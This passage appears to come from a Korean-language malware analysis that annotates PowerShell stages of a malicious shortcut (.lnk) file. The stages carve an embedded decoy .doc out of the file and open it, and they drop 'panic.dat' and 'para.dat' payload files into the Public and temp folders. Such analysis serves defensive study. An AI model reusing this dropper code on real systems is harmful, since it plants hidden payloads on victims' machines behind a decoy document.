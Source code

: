 

#### 3. lnk 파일 내부에서 doc 파일 추출 및 실행

```powershell
# $lnkFile에서 0x0000108E 값을 찾음.
$lnkFile.Seek(0x0000108E, [System.IO.SeekOrigin]::Begin);

# $pdfFile 객체를 생성, 크기 0x0087F800
$pdfFile=New-Object byte[] 0x0087F800;

# $lnkFile에서 찾은 0x0000108E 부터 0x0087F800크기 만큼 읽음
$lnkFile.Read($pdfFile, 0, 0x0087F800);

# .lnk 확장자를 .doc로 변경하여 $pdfPath로 저장
$pdfPath = $lnkPath.replace('.lnk','.doc');

# Set-Content로 pdfFile의 내용을 Byte로 인코딩하여 $pdfPath에 저장
sc $pdfPath $pdfFile -Encoding Byte;

# pdfPath 실행
& $pdfPath;
```



#### 4. lnk 파일 내부에서 panic.dat 파일 추출

```powershell
# $lnkFile 파일에서 0x0088088E를 찾음.
$lnkFile.Seek(0x0088088E,[System.IO.SeekOrigin]::Begin);

# $exeFile 객체를 생성, 크기 0x000D9402
$exeFile=New-Object byte[] 0x000D9402;

# $lnkFile 파일에서 찾은 0x0088088E부터 0x000D9402 크기 만큼 읽음
$lnkFile.Read($exeFile, 0, 0x000D9402);

# public 경로 + \ + panic.dat으로 $exePath 설정
$exePath=$env:public+'\'+'panic.dat';

# Set-Content로 $exeFile의 내용을 Byte로 인코딩하여 $exePath에 저장;
sc $exePath $exeFile -Encoding Byte;

```



#### 5. lnk 파일 내부에서 para.dat 파일 추출

```powershell
# 0x00959C90를 찾음
$lnkFile.Seek(0x00959C90,[System.IO.SeekOrigin]::Begin);

# 0x000005A9 크기의 $stringByte 객체 생성
$stringByte = New-Object byte[] 0x000005A9;

# 0x000005A9 크기 만큼 읽음.
$lnkFile.Read($stringByte, 0, 0x000005A9);

# para.dat 파일 경로를 생성
$batStrPath = $env:temp+'\'+'para.dat';

# $stringByte를 utf8로 인코딩
$string = [System.Text.Encoding]::UTF8.GetString($stringByte);

# $batStrPath로 ascii 인코딩하여 파일 생성
$string | Out-File -FilePath $batStrPath -Encoding ascii;
```